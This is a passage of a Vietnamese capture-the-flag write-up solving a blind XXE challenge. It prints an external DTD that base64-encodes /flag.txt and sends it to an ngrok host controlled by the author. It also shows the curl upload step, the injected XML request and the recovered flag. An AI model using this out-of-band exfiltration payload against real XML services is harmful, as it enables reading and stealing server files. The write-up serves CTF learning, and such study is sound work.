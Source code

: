  ```
 <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://fc4a-171-236-56-28.ap.ngrok.io/xxe.xml?%data;'>">
 
```
 Sau đó em truyền file trên lên server mình tạo bằng cách dùng curl:
 
 ```
 curl -X PUT -d "xxe.xml" http://0.0.0.0:8005/xxe.xml
 ```
 
 Và nội dung chính truyền ở trên burp-suite sẽ thực thi cmd trong file xxe.xml trên: 
 
 ```
 <?xml version="1.0" encoding="utf-8"?><!DOCTYPE data [ 
<!ELEMENT data ANY >
<!ENTITY % sp SYSTEM "https://fc4a-171-236-56-28.ap.ngrok.io/xxe.xml"> 
%sp; 
%param1; 
]>
<data>
    <name>
        &exfil;
    </name>
    ...
</data
 
 ```
  ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/burpsuite.jpg)
 
 Được đoạn mã trả về: 
 
 ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/server.jpg)
 
 Decode là ra flag: 
 
 ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml6.jpg)

 >Flag: KCSC{blind_xxD_xxO_xx]_xxe!!@#@}
  
